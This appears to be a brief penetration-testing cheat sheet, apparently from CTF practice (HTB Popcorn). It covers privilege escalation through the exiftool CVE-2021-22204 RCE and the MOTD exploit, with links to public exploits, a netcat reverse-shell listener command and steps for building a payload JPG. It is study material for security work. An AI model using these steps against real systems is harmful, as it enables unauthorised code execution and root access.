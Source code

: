 ### exiftool
+ cronjob/suid/sudo, version < v12.24, RCE
+ [cve-2021-22204 mannul](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)
+ [python exploit](https://github.com/convisolabs/CVE-2021-22204-exiftool)

```bash
sudo apt install djvulibre-bin exiftool

# change ip in python
nc -nvlp 443

# generate jpg file with payload
python3 exploit.py
```

### MOTD exploit
+ motd.legal-displayed, if you found this file. 
+ exp, https://www.exploit-db.com/exploits/14339
+ htb popcorn

```bash
ls -l .cache/motd.legal-displayed 
-rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed
```